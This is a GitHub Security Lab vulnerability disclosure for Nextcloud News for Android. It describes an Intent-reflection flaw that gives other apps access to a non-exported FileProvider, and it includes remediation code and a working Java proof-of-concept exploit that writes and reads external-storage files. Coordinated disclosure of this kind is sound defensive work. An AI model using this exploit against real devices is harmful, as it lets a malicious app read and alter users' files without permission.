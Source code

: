 # GitHub Security Lab (GHSL) Vulnerability Report: `GHSL-2021-1033`

The [GitHub Security Lab](https://securitylab.github.com) team has identified a potential security vulnerability in [Nextcloud News for Android](https://github.com/nextcloud/news-android).

We are committed to working with you to help resolve this issue. In this report you will find everything you need to effectively coordinate a resolution of this issue with the GHSL team.

If at any point you have concerns or questions about this process, please do not hesitate to reach out to us at `securitylab@github.com` (please include `GHSL-2021-1033` as a reference).

If you are _NOT_ the correct point of contact for this report, please let us know!

## Summary

The Nextcloud News for Android app has a security issue by which a malicious application installed on the same device can send it an arbitrary Intent that gets reflected back, unintentionally giving read and write access to non-exported Content Providers in Nextcloud News for Android.

## Product

Nextcloud News for Android

## Tested Version

0.9.9.62 (latest)

## Details

### Issue 1: Intent URI permission manipulation (`GHSL-2021-1033`)

The activity `SettingsActivity` is exported (since it has an `intent-filter`), as it can be seen in the Android Manifest:

[`AndroidManifest.xml:66`](https://github.com/nextcloud/news-android/blob/df13ae1c42f60dc9461278081ca3f6fd20a602e9/News-Android-App/src/main/AndroidManifest.xml#L66)

```xml
<activity
    android:name=".SettingsActivity"
    android:configChanges="keyboardHidden|orientation|screenSize"
    android:label="@string/title_activity_settings">
<intent-filter>
    <action android:name="de.luhmer.owncloudnewsreader.ACCOUNT_MANAGER_ENTRY" />
    <category android:name="android.intent.category.DEFAULT" />
</intent-filter>
</activity>
```

In its `onStart` method, this activity obtains the incoming `Intent` and returns it back to the calling application using `setResult`:

[`SettingsActivity.java:149`](https://github.com/nextcloud/news-android/blob/df13ae1c42f60dc9461278081ca3f6fd20a602e9/News-Android-App/src/main/java/de/luhmer/owncloudnewsreader/SettingsActivity.java#L149)

```java
@Override
protected void onStart() {
    super.onStart();
    Intent intent = getIntent();
    intent.putExtra(
            SettingsActivity.SP_FEED_LIST_LAYOUT,
            mPrefs.getString(SettingsActivity.SP_FEED_LIST_LAYOUT, "0")
    );
    setResult(RESULT_OK,intent);
}
```

Because of this, any application that uses `startActivityForResult` to start `SettingsActivity` with an arbitrary Intent will receive it back.

An attacker can exploit this by including the flags `FLAG_GRANT_READ_URI_PERMISSION` and/or `FLAG_GRANT_WRITE_URI_PERMISSION` in the Intent, which once returned by Nextcloud News will provide access to any of its Content Providers that has the attribute `android:grantUriPermissions="true"`, even if it is not exported.

Nextcloud News declares the `FileProvider` Content Provider in its Android Manifest:

[`AndroidManifest.xml:164`](https://github.com/nextcloud/news-android/blob/df13ae1c42f60dc9461278081ca3f6fd20a602e9/News-Android-App/src/main/AndroidManifest.xml#L164)

```xml
<provider
    android:name="androidx.core.content.FileProvider"
    android:authorities="${applicationId}.provider"
    android:exported="false"
    android:grantUriPermissions="true">
    <meta-data
        android:name="android.support.FILE_PROVIDER_PATHS"
        android:resource="@xml/file_provider_paths" />
</provider>
```

The files it gives access to are defined in [`file_provider_paths`](https://github.com/nextcloud/news-android/blob/df13ae1c42f60dc9461278081ca3f6fd20a602e9/News-Android-App/src/main/res/xml/file_provider_paths.xml):

```xml
<?xml version="1.0" encoding="utf-8"?>
<paths>
    <external-path
        name="external_files" path="." />
</paths>
```

With this information, and attacker can create an Intent targeted to `SettingsActivity` with the appropriate flags and the data URI `content://de.luhmer.owncloudnewsreader.provider/external_files/` to access the external storage using Nextcloud News as a proxy without needing to request the external storage permissions.

See the `Resources` section for a proof of concept exploiting this vulnerability.

#### Impact

This issue may lead to Privilege Escalation: a malicious application can use Nextcloud News for Android as a proxy to access the device's external storage without needing to request the appropriate permission to do so.

In a worst-case scenario, the attacker could overwrite files that are saved in the external storage and are owned and used by Nextcloud News to alter its functionality, since it is mentioned in [`PRIVACY.md`](https://github.com/nextcloud/news-android/blob/df13ae1c42f60dc9461278081ca3f6fd20a602e9/PRIVACY.md?plain=1#L34) that the external storage is used for caching purposes:

> * `android.permission.WRITE_EXTERNAL_STORAGE`
>
> Used for caching purposes / offline reading / storing podcasts 

#### Remediation

When it is needed to return data to the calling activity with `setResult`, use a new `Intent` that contains only the appropriate pieces of data (like extras) whenever possible. 

```java
Intent intent = new Intent();
// set extras as needed
setResult(Activity.RESULT_OK, intent);
```

If reusing the original Intent sent by the calling activity is needed, make sure that its `data` and `flags` are set to safe values:

```java
Intent intent = getIntent();
intent.setData(Uri.parse("content://safe/uri"));
intent.setFlags(Intent.FLAG_ACTIVITY_NEW_TASK);
// or
intent.removeFlags(Intent.FLAG_GRANT_READ_URI_PERMISSION);
intent.removeFlags(Intent.FLAG_GRANT_WRITE_URI_PERMISSION);
setResult(RESULT_OK, intent);
```

Alternatively, check that the Intent's `data` and `flags` contain expected values:

```java
Intent intent = getIntent();
if (!intent.getData().equals(Uri.parse("content://safe/uri"))) {
    setResult(RESULT_CANCELED);
    return;
}
if (!((intent.getFlags() & Intent.FLAG_GRANT_READ_URI_PERMISSION) == 0
        && (intent.getFlags() & Intent.FLAG_GRANT_WRITE_URI_PERMISSION) == 0)) {
    setResult(RESULT_CANCELED);
    return;
}
setResult(RESULT_OK, intent);
```

#### Resources

The following PoC demonstrates how a malicious application with no special permissions could read and write from the external storage in behalf of Nextcloud News exploiting the issue mentioned above:

```java
public class IntentUriManipulationPoc extends Activity {

    public void poc() {
        Intent i = new Intent();
        i.setClassName("de.luhmer.owncloudnewsreader", "de.luhmer.owncloudnewsreader.SettingsActivity");
        i.addFlags(Intent.FLAG_GRANT_READ_URI_PERMISSION | Intent.FLAG_GRANT_WRITE_URI_PERMISSION);
        i.setData(Uri.parse("content://de.luhmer.owncloudnewsreader.provider/external_files/Documents/test.txt"));
        startActivityForResult(i, 5);
    }

    protected void onActivityResult(int requestCode, int  resultCode, Intent data) {
        super.onActivityResult(requestCode, resultCode, data);
        try {
            OutputStream outputStream = getContentResolver().openOutputStream(data.getData());
            outputStream.write("pwned".getBytes());
            Log.w("attacker", "Written!");
            InputStream inputStream = getContentResolver().openInputStream(data.getData());
            Log.w("attacker", IOUtils.toString(inputStream, StandardCharsets.UTF_8));
        } catch (Exception e) {
            Log.e("attacker", e.toString());
        }

    }
}
```

## GitHub Security Advisories

We recommend you create a private [GitHub Security Advisory](https://help.github.com/en/github/managing-security-vulnerabilities/creating-a-security-advisory) for this finding. This also allows you to invite the GHSL team to collaborate and further discuss this finding in private before it is [published](https://help.github.com/en/github/managing-security-vulnerabilities/publishing-a-security-advisory).

## Credit

This issue was discovered and reported by the CodeQL static languages team member [@atorralba (Tony Torralba)](https://github.com/atorralba).

## Contact

You can contact the GHSL team at `securitylab@github.com`, please include a reference to `GHSL-2021-1033` in any communication regarding this issue.

## Disclosure Policy

This report is subject to our [coordinated disclosure policy](https://securitylab.github.com/advisories#policy).

